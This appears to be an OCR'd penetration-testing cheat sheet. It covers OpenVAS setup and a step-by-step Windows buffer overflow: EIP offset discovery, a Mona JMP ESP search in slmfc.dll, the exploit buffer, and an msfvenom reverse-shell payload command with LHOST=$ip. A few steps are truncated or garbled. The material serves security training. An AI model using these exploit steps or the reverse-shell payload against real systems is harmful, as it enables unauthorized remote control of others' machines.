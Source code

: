-   The OpenVAS Vulnerability Scanner

    -   apt-get update  
        apt-get install openvas  
        openvas-setup

    -   netstat -tulpn

    -   Login at:  
        https://$ip:9392

Buffer Overflows and Exploits
===================================================================================================================================

-   DEP and ASLR - Data Execution Prevention (DEP) and Address Space
    Layout Randomization (ASLR)

-   MSFvenom  
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

-   Windows Buffer Overflows

    -   Controlling EIP

    -   locate pattern\_create

    -   pattern\_create.rb -l 2700

    -   locate pattern\_offset

    -   pattern\_offset.rb -q 39694438

    -   Verify exact location of EIP - \[\*\] Exact match at offset 2606

    -   buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    -   Use Mona to determine a module that is unprotected

    -   Bypass DEP if present by finding a Memory Location with Read and
        Execute access for JMP ESP

    -   Otherwise without DEP, we can stick our

    -   Use NASM to determine the HEX code for a JMP ESP instruction

        -   /usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb

        -   JMP ESP  
            00000000 FFE4 jmp esp

    -   Run Mona in immunity log window to find (FFE4) XEF command

    -   !mona find -s "\\xff\\xe4" -m slmfc.dll  
        found at 0x5f4a358f - Flip around for little endian format

    -   buffer = "A" \* 2606 + "\\x8f\\x35\\x4a\\x5f" + "C" \* 390

    -   MSFVenom to create payload  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=443 -f c
        –e x86/shikata\_ga\_nai -b "\\x00\\x0a\\x0d"
